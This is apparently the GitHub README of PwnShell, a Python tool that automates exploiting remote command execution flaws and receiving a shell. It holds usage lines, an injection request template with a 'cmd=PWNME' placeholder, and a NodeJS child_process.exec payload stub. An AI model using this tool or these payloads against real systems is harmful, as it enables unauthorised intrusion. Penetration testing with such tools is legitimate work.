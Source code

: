 

# PwnShell

PwnShell is a python script that automate the remote code execution process

![Product Name Screen Shot][product-screenshot]


<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   cd PwnShell/
   chmod +x pwnshell.py
   ```



<!-- USAGE EXAMPLES -->
## Usage
### Recommended method 👇
```sh
   ./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Request File Example:
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### OR

```sh
   ./pwnshell.py -H [HOST IP] -u [TARGET URL] -m [REQUEST METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]
   ```
##### Note: Cookie and headers must be in JSON format (if provided).
### For NodeJs Payloads
```shell
  ./pwnshell.py -H [HOST IP] -n   
```
###### To use only NodeJs payload -> require('child_process').exec('PWNME')
### Use Help for full usage details
```sh
   ./pwnshell.py -h
   ```

# Preview
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

Zeyad AbuQasem - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

Omar Albalouli - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

Project Link: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)




[license-url]: https://github.com/zAbuQasem/PwnShell/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
